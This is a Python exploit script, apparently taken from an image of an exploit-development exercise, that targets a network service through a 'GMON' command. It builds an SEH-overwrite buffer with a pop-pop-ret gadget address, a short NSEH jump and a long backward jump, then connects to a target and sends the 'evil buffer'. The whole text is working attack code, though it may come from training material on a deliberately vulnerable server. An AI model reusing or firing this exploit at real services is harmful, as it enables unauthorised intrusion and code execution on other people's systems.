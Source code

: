 ```python

ppr_address = 0x625010b4
ppr_gadget = struct.pack("<I", ppr_address)

buf = b""
buf += b"GMON /."
buf += b"A" * (offset - 16)

# Step 2 -- long jump
# jump back 3533 bytes to the start of the AAAA
# nasm>  jmp -3533
buf += b"\xE9\x2E\xF2\xFF\xFF"  # step 2:   jmp -3533
buf += NOP * 11

# Step 1 -- NSEH Overwrite -- short jump
# jump back 16 bytes
# nasm>  jmp $-16
buf += b"\xEB\xEE" + NOP + NOP 

# Step 0 -- SEH Overwrite -- jump to pop pop return
buf += ppr_gadget

buf += b"D" * (size - offset - 8)
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```
